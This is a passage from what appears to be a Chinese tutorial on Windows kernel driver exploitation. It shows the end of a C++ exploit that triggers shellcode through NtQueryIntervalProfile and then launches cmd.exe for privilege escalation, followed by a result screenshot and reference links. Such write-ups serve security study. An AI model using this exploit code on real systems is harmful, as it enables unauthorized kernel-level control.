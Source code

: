 ```
L);    PNtQueryIntervalProfile NtQueryIntervalProfile = (PNtQueryIntervalProfile)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtQueryIntervalProfile");    if (!NtQueryIntervalProfile) `{`        cout &lt;&lt; "[!] Failed to Get the Address of NtQueryIntervalProfile." &lt;&lt; endl;        cout &lt;&lt; "[!] Last error " &lt;&lt; GetLastError() &lt;&lt; endl;        exit(1);    `}`    NtQueryIntervalProfile(ProfileTotalIssues, (ULONG*)SC);    PROCESS_INFORMATION ProcessInformation;    ZeroMemory(&amp;ProcessInformation, sizeof(ProcessInformation));    STARTUPINFOA StartupInfo;    ZeroMemory(&amp;StartupInfo, sizeof(StartupInfo));    CreateProcessA("C:\\Windows\\System32\\cmd.exe", NULL, NULL, NULL, 0, CREATE_NEW_CONSOLE, NULL, NULL, &amp;StartupInfo, &amp;ProcessInformation);    VirtualFree(SC, 0, MEM_RELEASE);`}`

```

效果如下：

[![](https://p2.ssl.qhimg.com/t01d447faade3153478.png)](https://p2.ssl.qhimg.com/t01d447faade3153478.png)



## 0x03 参阅链接
<li>[NTSTATUS Values—Microsoft Docs][https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-erref/596a1078-e883-4972-9bbc-49e60bebca55](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-erref/596a1078-e883-4972-9bbc-49e60bebca55)
</li>
<li>[ProbeForRead—Microsoft Docs][https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-probeforread](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-probeforread)
</li>
<li>[ProbeForWrite—Microsoft Docs][https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-probeforwrite](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-probeforwrite)
</li>
<li>[Exploiting common flaws in drivers][https://shinnai.altervista.org/papers_videos/ECFID.pdf](https://shinnai.altervista.org/papers_videos/ECFID.pdf)
</li>
<li>[ZwQueryIntervalProfile][https://www.geoffchappell.com/studies/windows/km/ntoskrnl/api/ex/profile/queryinterval.htm](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/api/ex/profile/queryinterval.htm)
</li>
<li>[ZwSetIntervalProfile][https://www.geoffchappell.com/studies/windows/km/ntoskrnl/api/ex/profile/setinterval.htm](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/api/ex/profile/setinterval.htm)
</li>
<li>[KPROFILE_SOURCE][https://www.geoffchappell.com/studies/windows/km/ntoskrnl/api/ke/profobj/kprofile_source.htm](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/api/ke/profobj/kprofile_source.htm)
</li>